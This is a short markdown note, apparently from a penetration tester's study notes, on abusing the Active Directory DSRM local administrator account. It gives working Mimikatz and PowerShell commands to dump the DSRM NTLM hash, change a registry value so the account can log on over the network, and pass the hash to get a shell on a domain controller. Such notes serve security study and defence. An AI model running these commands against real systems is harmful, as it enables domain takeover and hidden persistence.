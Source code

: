 ```yaml
---
category: Uncategorized
tags: []
---
```

#powershell #mimikatz 
- Stands for Directory Services Restore Mode.
- By default, we can't login as the local Administrator in the DC. The password for this account is the DSRM password which was setup during the server installation.
- DSRM password is also called the SafeMode password. It is required when a server is promoted to Domain Controller, or when the server is rebooted in the Safe Mode.
- This password is not automatically changed.
- As this user is the local administrator, there is no AES keys for this user. We can only dump it's NTLM hash. 
# Abuse
- Dump DSRM password (Required Domain Administrator Privs)
```powershell
token::elevate
lsadump::sam # As DSRM password is a local account, we dump the local SAM database.
```
- This DSRM password can be used to perform Pass-The-Hash attacks
```powershell
# DSRM Administrator, by default, cannot login from the system, and can only login from the physical console or the virtual console.
# Registry edits are required to enable logon over network.
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD

# Can be verified with
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa"

# Now the hash of this Account can be used to perform pass the hash and get command exection on the DC
sekurlsa::pth /domain:<dc-hostname> /user:Administrator /ntlm:<hash> /run:powershell.exe

# verificaiton
ls \\<dc-machine>\C$
```